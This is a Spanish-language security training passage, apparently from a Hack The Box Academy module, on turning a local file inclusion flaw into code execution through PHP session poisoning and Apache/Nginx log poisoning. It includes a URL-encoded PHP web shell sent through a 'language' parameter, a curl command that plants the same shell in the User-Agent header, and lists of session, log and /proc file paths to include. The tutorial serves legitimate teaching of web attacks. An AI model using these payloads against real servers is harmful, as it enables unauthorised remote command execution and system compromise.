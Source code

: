En secciones anteriores, vimos que si incluimos cualquier archivo que contenga código PHP, este se ejecutará siempre que la función vulnerable tenga privilegios de `Execute`. Los ataques que discutiremos en esta sección se basan en el mismo concepto: Escribir código PHP en un campo que controlamos y que se registra en un archivo de registro (es decir, "poison" / "contaminate" el archivo de registro), y luego incluir ese archivo de registro para ejecutar el código PHP. Para que este ataque funcione, la aplicación web PHP debe tener privilegios de lectura sobre los archivos registrados, lo que varía de un servidor a otro.

Como en el caso de la sección anterior, cualquiera de las siguientes funciones con privilegios de `Execute` debería ser vulnerable a estos ataques:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

---

## PHP Session Poisoning

La mayoría de las aplicaciones web PHP utilizan cookies `PHPSESSID`, las cuales pueden contener datos específicos del usuario en el back-end, para que la aplicación web pueda realizar un seguimiento de los detalles del usuario a través de sus cookies. Estos detalles se almacenan en archivos de `session` en el back-end, y se guardan en `/var/lib/php/sessions/` en Linux y en `C:\Windows\Temp\` en Windows. El nombre del archivo que contiene los datos de nuestro usuario coincide con el nombre de nuestra cookie `PHPSESSID` con el prefijo `sess_`. Por ejemplo, si la cookie `PHPSESSID` está configurada en `el4ukv0kqbvoirg7nkp4dncpk3`, entonces su ubicación en el disco sería `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

Lo primero que necesitamos hacer en un ataque de PHP Session Poisoning es examinar nuestro archivo de sesión `PHPSESSID` y ver si contiene algún dato que podamos controlar y envenenar. Entonces, primero verifiquemos si tenemos una cookie `PHPSESSID` configurada en nuestra sesión:

![image](https://academy.hackthebox.com/storage/modules/23/rfi_cookies_storage.png)

Como podemos ver, el valor de nuestra cookie `PHPSESSID` es `nhhv8i0o6ua4g88bkdl9u1fdsd`, por lo que debería estar almacenado en `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. Intentemos incluir este archivo de sesión a través de la vulnerabilidad LFI y ver su contenido:

   
`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`

![](https://academy.hackthebox.com/storage/modules/23/rfi_session_include.png)

**Nota:** Como fácilmente se puede adivinar, el valor de la cookie variará de una sesión a otra, por lo que debes usar el valor de cookie que encuentres en tu propia sesión para realizar el mismo ataque.

Podemos ver que el archivo de sesión contiene dos valores: `page`, que muestra la página de idioma seleccionada, y `preference`, que muestra el idioma seleccionado. El valor de `preference` no está bajo nuestro control, ya que no lo especificamos en ningún lugar y debe ser especificado automáticamente. Sin embargo, el valor de `page` está bajo nuestro control, ya que podemos controlarlo a través del parámetro `?language=`.

Intentemos configurar el valor de `page` a un valor personalizado (por ejemplo, `language parameter`) y ver si cambia en el archivo de sesión. Podemos hacerlo simplemente visitando la página con `?language=session_poisoning` especificado, de la siguiente manera:

```r
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Ahora, volvamos a incluir el archivo de sesión para ver su contenido:

  
`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`

![](https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png)

Esta vez, el archivo de sesión contiene `session_poisoning` en lugar de `es.php`, lo que confirma nuestra capacidad para controlar el valor de `page` en el archivo de sesión. Nuestro siguiente paso es realizar el paso de `poisoning` escribiendo código PHP en el archivo de sesión. Podemos escribir una shell web PHP básica cambiando el parámetro `?language=` a una shell web codificada en URL, de la siguiente manera:

```r
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finalmente, podemos incluir el archivo de sesión y usar `&cmd=id` para ejecutar comandos:

   
`http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`

![](https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png)

**Nota:** Para ejecutar otro comando, el archivo de sesión debe ser envenenado nuevamente con la shell web, ya que se sobrescribe con `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` después de nuestra última inclusión. Idealmente, usaríamos la shell web envenenada para escribir una shell web permanente en el directorio web, o enviar una reverse shell para una interacción más fácil.

---

## Server Log Poisoning

Tanto `Apache` como `Nginx` mantienen varios archivos de registro, como `access.log` y `error.log`. El archivo `access.log` contiene varias informaciones sobre todas las solicitudes realizadas al servidor, incluyendo el encabezado `User-Agent` de cada solicitud. Como podemos controlar el encabezado `User-Agent` en nuestras solicitudes, podemos usarlo para envenenar los registros del servidor como hicimos antes.

Una vez envenenado, necesitamos incluir los registros a través de la vulnerabilidad LFI, y para eso necesitamos tener acceso de lectura sobre los registros. Los registros de `Nginx` son legibles por usuarios con privilegios bajos por defecto (por ejemplo, `www-data`), mientras que los registros de `Apache` solo son legibles por usuarios con altos privilegios (por ejemplo, grupos `root`/`adm`). Sin embargo, en servidores `Apache` antiguos o mal configurados, estos registros pueden ser legibles por usuarios con privilegios bajos.

Por defecto, los registros de `Apache` se encuentran en `/var/log/apache2/` en Linux y en `C:\xampp\apache\logs\` en Windows, mientras que los registros de `Nginx` se encuentran en `/var/log/nginx/` en Linux y en `C:\nginx\log\` en Windows. Sin embargo, los registros pueden estar en una ubicación diferente en algunos casos, por lo que podemos usar una [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) para fuzzear sus ubicaciones, como se discutirá en la siguiente sección.

Entonces, intentemos incluir el registro de acceso de Apache desde `/var/log/apache2/access.log` y veamos qué obtenemos:

   
`http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log`

![](https://academy.hackthebox.com/storage/modules/23/rfi_access_log.png)

Como podemos ver, podemos leer el registro. El registro contiene la `dirección IP remota`, la `página solicitada`, el `código de respuesta` y el encabezado `User-Agent`. Como se mencionó anteriormente, el encabezado `User-Agent` es controlado por nosotros a través de los encabezados de solicitud HTTP, por lo que deberíamos poder envenenar este valor.

**Consejo:** Los registros tienden a ser enormes, y cargarlos en una vulnerabilidad LFI puede tardar un tiempo en cargarse, o incluso hacer que el servidor se bloquee en los peores escenarios. Por lo tanto, ten cuidado y sé eficiente con ellos en un entorno de producción, y no envíes solicitudes innecesarias.

Para hacerlo, usaremos `Burp Suite` para interceptar nuestra solicitud LFI anterior y modificar el encabezado `User-Agent` a `Apache Log Poisoning`:

![image](https://academy.hackthebox.com/storage/modules/23/rfi_repeater_ua.png)

**Nota:** Como todas las solicitudes al servidor se registran, podemos envenenar cualquier solicitud a la aplicación web, y no necesariamente la LFI como hicimos antes.

Como se esperaba, nuestro valor personalizado de User-Agent es visible en el archivo de registro incluido. Ahora, podemos envenenar el encabezado

 `User-Agent` configurándolo a una shell web PHP básica:

![image](https://academy.hackthebox.com/storage/modules/23/rfi_cmd_repeater.png)

También podemos envenenar el registro enviando una solicitud a través de cURL, de la siguiente manera:

  Log Poisoning

```r
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

Como el registro ahora debería contener código PHP, la vulnerabilidad LFI debería ejecutar este código, y deberíamos poder obtener ejecución remota de código. Podemos especificar un comando para ejecutar con (`?cmd=id`):

![image](https://academy.hackthebox.com/storage/modules/23/rfi_id_repeater.png)

Vemos que ejecutamos el comando exitosamente. El mismo ataque exacto se puede llevar a cabo en los registros de `Nginx` también.

**Consejo:** El encabezado `User-Agent` también se muestra en los archivos de proceso en el directorio `/proc/` de Linux. Por lo tanto, podemos intentar incluir los archivos `/proc/self/environ` o `/proc/self/fd/N` (donde N es un PID generalmente entre 0-50), y podemos realizar el mismo ataque en estos archivos. Esto puede ser útil en caso de que no tuviéramos acceso de lectura sobre los registros del servidor, sin embargo, estos archivos también pueden ser legibles solo por usuarios privilegiados.

Finalmente, existen otras técnicas similares de envenenamiento de registros que podemos utilizar en varios registros del sistema, dependiendo de a cuáles registros tengamos acceso de lectura. Los siguientes son algunos de los registros de servicio a los que podemos tener acceso:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

Debemos intentar leer estos registros a través de LFI primero, y si tenemos acceso a ellos, podemos intentar envenenarlos como hicimos anteriormente. Por ejemplo, si los servicios `ssh` o `ftp` están expuestos a nosotros, y podemos leer sus registros a través de LFI, entonces podemos intentar iniciar sesión en ellos y configurar el nombre de usuario en código PHP, y al incluir sus registros, el código PHP se ejecutaría. Lo mismo se aplica a los servicios de `mail`, ya que podemos enviar un correo electrónico que contenga código PHP, y al incluir su registro, el código PHP se ejecutaría. Podemos generalizar esta técnica a cualquier registro que registre un parámetro que controlamos y que podamos leer a través de la vulnerabilidad LFI.